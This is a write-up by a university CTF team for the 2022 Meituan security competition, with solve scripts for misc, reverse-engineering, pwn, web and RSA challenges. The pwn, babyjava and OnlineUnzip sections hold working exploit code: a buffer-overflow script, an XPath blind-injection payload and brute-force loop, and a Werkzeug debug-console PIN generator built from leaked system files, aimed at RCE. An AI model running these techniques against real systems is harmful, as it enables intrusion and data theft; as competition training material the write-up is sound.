


# 2022美团网络安全高校挑战赛-HED-WriteUp
**Rank: 19** *1185pts 6Solved*  

`HED 是南方科技大学COMPASS实验室的CTF战队`


- [2022美团网络安全高校挑战赛-HED-WriteUp](#2022美团网络安全高校挑战赛-hed-writeup)
- [MISC](#misc)
  - [CyberSpace(一血)](#cyberspace一血)
- [RE](#re)
  - [RE-small](#re-small)
- [PWN](#pwn)
  - [捉迷藏](#捉迷藏)
- [WEB](#web)
  - [babyjava(一血)](#babyjava一血)
  - [OnlineUnzip](#onlineunzip)
- [Crypto](#crypto)
  - [strange_rsa1](#strange_rsa1)


# MISC

## CyberSpace(一血)

~~题目出锅了，所以先品鉴了一下题目的源码。~~  
队里的密码小姐姐是是信息竞赛选手，一眼就看出来这是单调队列入门题。  
其中一种最优解是，在数列上升的时候进行上升数量的 add_l，在数列下降的时候进行下降数量的 add_r，这样相当于在 [add_l, add_r - 1] 区间中全部 +1。  
令人感叹的是，这题修完重新上线的时候，小姐姐还在外面吃饭，回来以后竟然还是没有人做出来。为抢一血赶紧搓个脚本，交互都不写了，直接粘贴输入。

```python
target = [83, 111, 54, 42, 72, 96, 111, 78, 33, 124, 50, 87, 119, 73, 42, 78, 83, 42, 97, 54, 39, 43, 121, 65]
target.append(0)

ans = []
l = []
cnt = 0
cur = 0
for i in range(len(target)):
    if target[i] > cur:
        cnt += target[i] - cur
        l = l + [i for _ in range(target[i] - cur)]
    elif target[i] < cur:
        for _ in range(cur - target[i]):
            ans.append((l[-1], i))
            l.pop()
    cur = target[i]

print(cnt, len(ans))
print()

for item in ans:
    print('1')
    print(item[0])
    print(item[1])

```

```
Congratulations this is your flag
u8 b= 32 | 38 | 27 | 33 | 53 | 30 | 35 | 32 | 32 | 31 | 44 | 31 | 40 | 46 | 25 | 50 | 41 | 44 | 55
u8 a=[19]
u8 c=a+70
u8 flag=c+b
```

是 ***HeLang***！  
运行后得到 `flag{different_xor}`。


# RE
## RE-small
程序直接跑不起来，放IDA里从入口跟进，nop掉没用的花跳转，（其实不修也可以，但是找不到数据地址）


  


然后就能看到加密逻辑,没有魔改的原版TEA，轮数35，key硬编码。





还可以看到比较的数组，导出之后写解密脚本：
```cpp
#include <stdio.h>
#include <iostream>
uint32_t dword_100F7[9] ={
  -569872061,
  -990307374,

  -621356324,
  1839125836,

  1978355431,
  1562237956,

  1360728025,
  1373407483,

  0,
};

void decrypt(uint32_t* v) {
  uint32_t round = 35;
  uint32_t delta = 1732584193; 
  uint32_t v0 = v[0], v1 = v[1], sum = delta * round, i; 
  uint32_t k0 = 1, k1 = 35, k2 = 69, k3 = 103;
  for (i = 0; i < round; i++) {
    v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);
    v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);
    sum -= delta;
  }
  v[0] = v0; v[1] = v1;
}

int main(){
  for (int i = 0; i < 8; i += 2) {
    decrypt(&dword_100F7[i]);
  }
  printf("%s\n", dword_100F7);
  return 0;
}
```

# PWN
## 捉迷藏

溢出点藏到一大堆分支的唯一结果里，不过过一遍27个getline就能找到溢出的位置。  
之后想让angr自动跑出来，好像效果并不理想，于是考虑手动推算

结果发现比较函数有经典的漏洞，只要让用户输入为截断符就会返回通过，所以直接送一堆0进去，不过最后一个因为XOR了首位，所以需要等于亦或的值。

拿到溢出点之后ret到后门就可以了
```python
from pwn import *

p=remote("39.106.27.2",36329)
p.sendafter(b"sbAmJLMLWm:", b"0 0 0 0 0 0 0 0 ")
p.sendafter(b"HuEqdjYtuWo:", b"\x00"*0x33)
p.sendafter(b"hbsoMdIRWpYRqvfClb:", b"\x00"*0x35)
p.sendafter(b"tfAxpqDQuTCyJw:", b"\x00"*0x22)
p.sendafter(b"UTxqmFvmLy:", b"0 0 0 9254 0 0 0 0 ")
p.sendafter(b"LLQPyLAOGJbnm:", b'\x3c'+b"\00"*0x29)
p.sendafter(b"gRGKqIlcuj:", b'a'*0xf+b'b'*8+p64(0x401331)*4)
p.interactive()
p.close()
```

# WEB
## babyjava(一血)
看大佬的博客：https://xz.aliyun.com/t/7791?page=1

前边的判断方法(root-user-username)博客里都有，而且是常见名爆破第一个字符就能猜到了  
`xpath=user1' and substring(name(/*[1]), 3, 1)='o'  and ''='`  
最后注到第二个flag上脚本，很快就能出来  
```python
import requests

for n in range(80):
    for i in "abcdef0123456789-{}":
        r = requests.post("http://eci-2zef43pmhep3nhrjor7d.cloudeci1.ichunqiu.com:8888/hello",
                          data={
                              "xpath": f"""user1' and substring((//user[position()=1]/username[position()=2]),{n},1) = '{i}'  and ''='"""
                          })
        if "information " not in r.text:
            print(i, end="")
            break
```

## OnlineUnzip
zip很容易构造../的文件名（比如手动patch或者丢给java生成），也很容易被开发者防到  

软链接是另一种zip攻击的方法，解决方法是用修补过的unzip，但看起来这道题没修  

这道题比较简单的方法是直接把`/`根目录ln出来，这样直接就能任意文件读，但读flag会提示无权限 

然后注意到debug=True，但之前没做过Flask控制台的题，所以这里卡了两个多小时，痛失一血  

开了debug之后不仅有报错，还可以通过/console进入控制台，当然高版本需要输入pin，但这个pin是可计算的

不过网上的脚本都不怎么能用，干脆把服务器的pin生成代码拉下来看看，然后再改，于是就有：

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'ctf',  # /etc/passwd
    'flask.app',  # 默认
    'Flask',  # 默认
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # 报错或者想办法拿
]
# docker环境取 1 3 ， 其余应该没有3
private_bits = [
    '95529876171',  # /sys/class/net/ens0/address
    '96cec10d3d9307792745ec3b85c89620'  # /etc/machine-id 
    # 'c5938f8f-1a6f-4e03-8a6e-4fed4f38afa9' # /proc/sys/kernel/random/boot_id 
    'e6714e8f0c24bf998ff3953127d9a0f60e30b712b0cda501c207092fd26bfc18'  # /proc/self/cgroup
]

# 3.6是md5，3.8是sha1
h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]

for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
        rv = "-".join(
            num[x: x + group_size].rjust(group_size, "0")
            for x in range(0, len(num), group_size)
        )
        print(rv)
```
有了pin就可以RCE了，没测控制台能不能直接读，反弹的shell可以读flag

# Crypto
## strange_rsa1

RSA，已知高精度下的 p/q，求 p 和 q。  
用 sage 运行，发现精度足够，直接能解出来。

```python
# exp.sage
from Crypto.Util.number import *

e = 0x10001
n = 108525167048069618588175976867846563247592681279699764935868571805537995466244621039138584734968186962015154069834228913223982840558626369903697856981515674800664445719963249384904839446749699482532818680540192673814671582032905573381188420997231842144989027400106624744146739238687818312012920530048166672413
c = 23970397560482326418544500895982564794681055333385186829686707802322923345863102521635786012870368948010933275558746273559080917607938457905967618777124428711098087525967347923209347190956512520350806766416108324895660243364661936801627882577951784569589707943966009295758316967368650512558923594173887431924
gift = 0.9878713210057139023298389025767652308503013961919282440169053652488565206963320721234736480911437918373201299590078678742136736290349578719187645145615363088975706222696090029443619975380433122746296316430693294386663490221891787292112964989501856435389725149610724585156154688515007983846599924478524442938

q_sq = n / gift
q_e = sqrt(q_sq)
q = int(q_e)

assert n % q == 0
p = n / q

phi = int((p-1)*(q-1))
d = inverse(e, phi)
m = pow(c, d, n)
print(long_to_bytes(m))
```

